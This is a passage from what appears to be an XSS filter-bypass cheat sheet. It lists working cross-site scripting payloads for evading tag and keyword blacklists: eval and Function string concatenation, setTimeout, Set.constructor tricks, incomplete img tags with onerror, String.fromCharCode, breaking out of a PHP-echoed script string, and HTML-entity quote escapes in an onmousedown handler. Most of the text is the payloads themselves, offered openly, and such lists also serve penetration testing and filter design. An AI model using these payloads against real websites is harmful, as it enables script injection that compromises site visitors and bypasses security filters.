 Since many XSS filters only recognize exact lowercase or uppercase patterns, this can sometimes evade detection by tricking simple case-sensitive filters.


## Bypass Tag Blacklist

```javascript
<script x>
<script x>alert('XSS')<script y>
```

## Bypass Word Blacklist with Code Evaluation

```javascript
eval('ale'+'rt(0)');
Function("ale"+"rt(1)")();
new Function`al\ert\`6\``;
setTimeout('ale'+'rt(2)');
setInterval('ale'+'rt(10)');
Set.constructor('ale'+'rt(13)')();
Set.constructor`al\x65rt\x2814\x29```;
```

## Bypass with Incomplete HTML Tag

Works on IE/Firefox/Chrome/Safari

```javascript
<img src='1' onerror='alert(0)' <
```

## Bypass Quotes for String

```javascript
String.fromCharCode(88,83,83)
```

## Bypass Quotes in Script Tag

```javascript
http://localhost/bla.php?test=</script><script>alert(1)</script>
<html>
  <script>
    <?php echo 'foo="text '.$_GET['test'].'";';`?>
  </script>
</html>
```

## Bypass Quotes in Mousedown Event

You can bypass a single quote with &#39; in an on mousedown event handler

```javascript
<a href="" onmousedown="var name = '&#39;;alert(1)//'; alert('smthg')">Link</a>
```
